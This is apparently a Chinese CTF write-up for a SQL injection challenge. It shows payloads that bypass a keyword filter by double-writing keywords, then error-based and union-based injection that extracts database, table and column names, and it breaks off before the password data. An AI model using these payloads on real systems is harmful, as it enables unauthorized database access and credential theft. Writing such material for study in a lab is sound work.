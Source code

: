 试万能密码：

?username=cangxue' or 1=1#
?username=cangxue%27%20or%201=1%23

返回：

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1=1#' and password='cangxue'' at line 1

哎，哪来的quote呢？

仔细一想，应该是or被替换成空字符了，所以双写or试试看：

?username=cangxue' oorr 1=1#

这么一看其实是有过滤的，前面想当然了

重新检查intruder的结果，发现以下会被替换：

* + < > <> and or if select sleep union where by mid substr from

所以只要在前面那道题的基础上双写关键字应该就可以，一步步来吧，先看数据库：

?username=cangxue' oorr updatexml(1, concat(1,database()), 1)#
?username=cangxue%27%20oorr%20updatexml(1,%20concat(1,database()),1)%23

返回：

XPATH syntax error: 'geek'

名字还是叫geek

?username=cangxue' uniunionon selselectect 1,2,3#
?username=cangxue%27%20uniunionon%20selselectect%201,2,3%23

Hello 2！

Your password is '3'

前面的select还是三个参数，

那么就来看表名吧

?username=cangxue' uniunionon selselectect 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whewherere table_schema=database()#
?username=cangxue%27%20uniunionon%20selselectect%201,2,group_concat(table_name)%20frfromom%20infoorrmation_schema.tables%20whewherere%20table_schema=database()%23

返回：

Your password is 'b4bsql,geekuser'

这次不用看就是在b4bsql里面：

?username=cangxue' uniunionon selselectect 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whewherere table_schema=database() anandd table_name='b4bsql'#
?username=cangxue%27%20uniunionon%20selselectect%201,2,group_concat(column_name)%20frfromom%20infoorrmation_schema.columns%20whewherere%20table_schema=database()%20anandd%20table_name=%27b4bsql%27%23

Your password is 'id,username,password'

来吧让我们看看password里有什么好东西：
